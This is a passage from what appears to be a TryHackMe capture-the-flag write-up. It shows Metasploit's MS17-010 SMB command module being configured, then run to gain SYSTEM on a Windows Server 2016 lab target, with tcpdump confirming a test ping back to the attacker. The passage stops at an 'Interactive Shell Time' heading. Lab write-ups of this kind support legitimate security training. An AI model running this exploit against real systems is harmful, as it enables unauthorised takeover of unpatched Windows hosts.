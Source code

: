 ```bash
   SMBSHARE              C$                             yes       The name of a writeable share on the server
   SMBUser               bill                           no        The username to authenticate as
   THREADS               1                              yes       The number of concurrent threads (max one per host
                                                                  )
   WINPATH               WINDOWS                        yes       The name of the remote Windows directory
```

My favorite time - Let's run the exploit....

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.102.225:445     - Authenticating to 10.10.102.225 as user 'bill'...
[*] 10.10.102.225:445     - Target OS: Windows Server 2016 Standard Evaluation 14393
[*] 10.10.102.225:445     - Built a write-what-where primitive...
[+] 10.10.102.225:445     - Overwrite complete... SYSTEM session obtained!
[+] 10.10.102.225:445     - Service start timed out, OK if running a command or non-service executable...
[-] 10.10.102.225:445     - Unable to get handle: The server responded with error: STATUS_SHARING_VIOLATION (Command=45 WordCount=0)
[-] 10.10.102.225:445     - Command seems to still be executing. Try increasing RETRY and DELAY
[*] 10.10.102.225:445     - Getting the command output...
[*] 10.10.102.225:445     - Command finished with no output
[*] 10.10.102.225:445     - Executing cleanup...
[+] 10.10.102.225:445     - Cleanup was successful
[+] 10.10.102.225:445     - Command completed successfully!
[*] 10.10.102.225:445     - Output for "ping -n 3 10.9.11.106":



[*] 10.10.102.225:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/smb/ms17_010_command) > 
```

Checking our tcpdump, we get the ping commands!

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ sudo tcpdump -i tun0 'icmp'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:00:49.043804 IP 10.10.102.225 > 10.9.11.106: ICMP echo request, id 1, seq 4, length 40
12:00:49.043815 IP 10.9.11.106 > 10.10.102.225: ICMP echo reply, id 1, seq 4, length 40
12:00:50.194631 IP 10.10.102.225 > 10.9.11.106: ICMP echo request, id 1, seq 5, length 40
12:00:50.194643 IP 10.9.11.106 > 10.10.102.225: ICMP echo reply, id 1, seq 5, length 40
12:00:51.552937 IP 10.10.102.225 > 10.9.11.106: ICMP echo request, id 1, seq 6, length 40
12:00:51.552950 IP 10.9.11.106 > 10.10.102.225: ICMP echo reply, id 1, seq 6, length 40
```

### Interactive Shell Time
